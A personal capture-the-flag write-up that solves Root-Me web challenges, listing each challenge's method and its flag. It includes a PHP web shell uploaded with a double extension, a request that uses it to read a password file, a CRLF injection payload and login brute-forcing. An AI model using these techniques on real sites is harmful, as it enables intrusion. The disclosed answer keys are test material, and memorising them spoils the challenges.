 # 1. HTML - Source code
pass: nZ^&@q5&sjJHev0
# 2. HTTP - IP restriction bypass
use **X-Forwarded-For header** to trick server with internal ip addr

pass: Ip_$po0Fing
# 3. HTTP - Open redirect
go to another page than the other which are displayed in the source code

pass: e6f8a530811d5a479812d7b82fc1a5c5
# 4. HTTP - User-agent
As the title, Change **User-Agent** to admin

pass: rr$Li9%L34qd1AAe27
# 5. Weak password
This is kinda guessy challenge, but i dont wanna guess so i decide to **BRUTE** it ^^

First capture the header and the boday with **burp**

![image info](img/271810551_242364731407511_8256775808442882487_n.png)

So the payload that we request to web page is convert to base64 and place in the Authorization header

**(The HTTP Authorization request header can be used to provide credentials that authenticate a user agent with a server, allowing access to a protected resource.)** 

so i write a script to convert default credentials to base64 and use FFUF to brute force (script in the folder)

![image info](img/271719231_990489488219350_4169317159863269556_n.png)

pass:admin 

(I think if I guess the credentials, maybe I'll finish sooner :v)

# 5. PHP - Command injection
pass: S3rv1ceP1n9Sup3rS3cure
# 6. Backup file
Content discovery (use dirsearch)

pass: OCCY9AcNm1tj
# 7. HTTP - Directory indexing
Content discovery 

pass: Linux
# 8. HTTP - Headers
change the header (script in folder)

pass: HeadersMayBeUseful
# 9. HTTP - POST
As the title, use request method:POST to send data (script in folder)

pass: H7tp_h4s_N0_s3Cr37S_F0r_y0U

# 10. HTTP - Improper redirect
The web page is automatically add redirect param to the url because of the Location header

```
http://challenge01.root-me.org/web-serveur/ch32/login.php?redirect
```

**The Location response header indicates the URL to redirect a page to. It only provides a meaning when served with a 3xx (redirection) or 201 (created) status response.)**

Solution: add 
```
allow_redirects=False
```
to the request (script in the folder)

pass: ExecutionAfterRedirectIsBad

# 11. HTTP - Verb tampering
My first idea is tried the script and the payload i had done earlier chall but no working, so i have to rethink about this chall. i note that the title is **Verb tampering** so the ideal here is change the request method to anything other than GET.

pass: ```a23e$dme96d3saez$$prap```

# 12. Install files
According to the title, the admin of this page uses phpbb (i dont know what it is) and he forget to delete his install folder, so the idea this to find it

Location: **/phpbb/install/**

pass: karambar

# 13. CRLF
(Carriage return and Line Feed) it means to create new lines (\r\n).
So the idea is to use intercept proxy (e.g. Burp suite) edit request to
```
GET /web-serveur/ch14/?username=%0D%0Aadmin%20authenticated%0D%0INJECTINHERE
```
# 14. File upload - Double extensions
The idea is upload our script and rce. 
(i have tried reverse shell with netcat and ngrok to port fowarding but somehow it didnt work LOL so i use this script from another write up)
```
<?php

$data = system($_GET["cmd"]);
echo $data;

?>
```
now change this to reverse.php.png to bypass the image filter and the final step is rce with cmd param
```
challenge01.root-me.org/web-serveur/ch20/galerie/upload/0c3f5ea659f03569d6fce99cf1233c56/test.php.png?cmd=cat%20../../../.passwd
```
pass: Gg9LRz-hWSxqqUKd77-_q-6G8

# 15. File upload - MIME type
(Kiểu phương tiện là định danh hai phần cho định dạng file và nội dung định dạng được truyền trên Internet.)

So idea here is use Burp to change the header **Content-type** from  from **aplication/octet-stream** to **image/png**. Ok now we can upload our script successfully

pass: a7n4nizpgQgnPERy89uanf6T4

# 16. HTTP - Cookies
Use burp to catch request and chang the cookie from **visiteur** to **admin**

pass: ml-SYMPA 
# 17. Insecure Code Management
(use Gittools)

pass: s3cureP@ssw0rd

# .. SQL INJECTION AUTHENTICATION
When we use **'** ,we'll get this error:
```
Warning: SQLite3::query(): Unable to prepare statement: 1, near "1": syntax error in /challenge/web-serveur/ch9/index.php on line 38
near "1": syntax error
```